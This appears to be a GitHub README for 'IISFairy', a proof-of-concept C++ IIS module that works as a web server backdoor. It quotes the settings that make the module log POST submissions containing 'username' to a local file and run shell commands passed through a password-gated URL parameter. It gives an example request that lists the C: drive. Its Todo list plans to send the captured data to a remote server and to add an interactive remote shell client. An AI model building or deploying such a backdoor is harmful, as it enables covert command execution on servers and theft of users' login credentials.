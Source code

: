 # IISFairy
Simple PoC IIS Native module coded in c++, it's able to capture post request to a specific url and exucte commands through url request.

# Settings
Before compiling make sure to set below settings so it suits to your needs.

<b>Logging part :</b>

--> Page to save Post Request for :
PCWSTR getPostRequestfromthisUrl = L"yourmomistheiisfairy.html";

--> Trigger parameter in Post Request to start the log :
LPCSTR lpFound = strstr((LPCSTR)FormData, "username");

--> Local location to save logfile to :
std::wofstream outputFile("C:\\yourmomtheiisfairy.txt", std::ios::out | std::ios::app);

<b>CMD part :</b>

--> Parameter in get url request to activate cmd detection, a.k.a. password :

PCWSTR activateCMDtrigger = L"secretkey=iisfairy";

--> Parameter in get url request to get cmd from :

std::string paramValue = UrlDecode(ExtractQueryParamValue(urlBuffer, "sauce"));

--> Url request example to display C:\ directory :
http://localhost/yourmomistheiisfairy.html?secretkey=iisfairy&sauce=dir%20C:\

# Todo

--> Save captured post data handling ;
Use ping to send capatures post data back, use post url request to save data on remote server, 

--> Code a python client shell to interact as a "liveshell"

--> Tidy all my shit up.

--> Bang the IISFairy






